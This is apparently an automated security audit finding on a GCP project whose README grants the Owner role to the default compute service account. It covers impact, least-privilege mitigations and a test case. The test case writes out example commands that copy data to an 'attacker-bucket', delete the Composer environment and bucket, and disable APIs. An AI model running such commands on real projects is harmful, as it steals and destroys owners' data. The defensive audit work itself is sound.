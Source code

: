 - Vulnerability Name: Overly Permissive Default Compute Service Account Permissions
- Description:
  - The project's `README.md` provides instructions to grant the 'Owner' role to the default Compute Engine service account.
  - An attacker could potentially compromise the default Compute Engine service account through various means (e.g., exploiting a vulnerability in a service running on Compute Engine instances using this service account).
  - Once the Compute Engine service account is compromised, the attacker inherits the 'Owner' permissions granted to it.
- Impact:
  - **Critical**. Granting the 'Owner' role to the default Compute Engine service account provides an attacker with full control over the GCP project.
  - This includes the ability to:
    - Access and modify all data stored within the project (including sensitive data in GCS Buckets, BigQuery datasets, Datastore, etc.).
    - Modify or delete project resources (Cloud Composer environments, Dataflow jobs, AutoML models, Compute Engine instances, etc.).
    - Create new resources within the project.
    - Grant or revoke IAM permissions to other users or service accounts, potentially escalating privileges further or establishing persistence.
    - Pivot to other GCP projects or on-premises systems if proper network configurations are not in place.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
  - None. The project provides no mitigations for this vulnerability. The `README.md` directly instructs users to grant the overly permissive 'Owner' role.
- Missing Mitigations:
  - **Least Privilege IAM Guidance:** The `README.md` should be updated to strongly discourage granting the 'Owner' role to the default Compute Engine service account.
  - **Specific Role Recommendations:**  Instead of 'Owner', the documentation should guide users to identify and grant the minimum necessary IAM roles required for the project to function. This might involve roles like:
    - `roles/dataflow.developer` for Dataflow operations.
    - `roles/composer.worker` and `roles/composer.admin` for Cloud Composer operations.
    - `roles/automl.serviceAgent` and potentially more granular BigQuery roles for AutoML.
    - `roles/storage.objectAdmin` for GCS bucket access.
    - `roles/bigquery.dataEditor` and `roles/bigquery.jobUser` for BigQuery access.
  - **IAM Role Separation:** Encourage users to create dedicated service accounts with specific roles for each component of the ML pipeline (Dataflow, Composer, AutoML) instead of relying on the default Compute Engine service account.
- Preconditions:
  - The user must follow the "Grant service account permissions" instructions in the `README.md` and execute the command:
    ```bash
    gcloud projects add-iam-policy-binding $GCP_PROJECT_ID \
      --member="serviceAccount:${GCP_PROJECT_NUMBER}-compute@developer.gserviceaccount.com" \
      --role='roles/owner'
    ```
  - The default Compute Engine service account must be compromised by an attacker.
- Source Code Analysis:
  - The vulnerability is not present in the Python code or configuration scripts of the project.
  - The vulnerability is solely due to the **insecure IAM configuration instruction** provided in the `README.md` file:
  ```
  File: /code/README.md
  Content:
  ...
  ### Grant service account permissions

  - Grant Owner permissions to the default compute service account:

    ```bash
      gcloud projects add-iam-policy-binding $GCP_PROJECT_ID \
        --member="serviceAccount:${GCP_PROJECT_NUMBER}-compute@developer.gserviceaccount.com" \
        --role='roles/owner'
    ```
  ...
  ```
  - This instruction directly leads users to grant the 'Owner' role, which is excessively permissive and violates the principle of least privilege.
- Security Test Case:
  - **Step 1: Setup the Blockbuster project as described in `README.md`**. This includes enabling APIs, setting up the environment, creating a Cloud Composer environment, and crucially, granting 'Owner' permissions to the default Compute Engine service account as instructed.
  - **Step 2: Simulate Compute Engine Service Account Compromise**. In a real-world scenario, this could involve various attack vectors. For this test case, we can simulate it by gaining access to a Compute Engine instance running under the default service account.  This could be achieved by:
    - Creating a Compute Engine instance in the project.
    - Ensuring the instance runs as the default Compute Engine service account (no service account specified during instance creation).
    - Gaining SSH access to this instance (e.g., through misconfigured firewall rules or compromised credentials - though for the purpose of *demonstrating the impact* of the IAM misconfiguration, we can assume we have gained shell access).
  - **Step 3: Exploit 'Owner' Permissions**. Once inside the Compute Engine instance, the attacker (simulating the compromised service account) can use the `gcloud` command-line tool, which will automatically authenticate using the instance's service account credentials.
    - **Example Data Exfiltration:**
      ```bash
      # List all GCS buckets in the project
      gsutil ls

      # Copy sensitive data from a bucket to an attacker-controlled location
      gsutil cp gs://your-gcp-bucket/sensitive-data.txt gs://attacker-bucket/exfiltrated-data.txt

      # Access BigQuery data
      bq query --nouse_legacy_sql 'SELECT * FROM `your-gcp-project:your_dataset.your_table` LIMIT 10'

      # Create a new Compute Engine instance under attacker control
      gcloud compute instances create attacker-instance --zone us-central1-a
      ```
    - **Example Resource Manipulation/Denial of Service:**
      ```bash
      # Delete the Cloud Composer environment
      gcloud composer environments delete $GCP_COMPOSER_ENV_NAME --location $GCP_REGION --quiet

      # Delete the GCS bucket
      gsutil rm -r gs://$GCP_BUCKET

      # Disable APIs
      gcloud services disable dataflow.googleapis.com composer.googleapis.com automl.googleapis.com datastore.googleapis.com
      ```
  - **Step 4: Observe Impact**. The attacker can successfully perform all the actions in Step 3, demonstrating the complete compromise of the GCP project due to the overly permissive 'Owner' role granted to the default Compute Engine service account. This proves the vulnerability.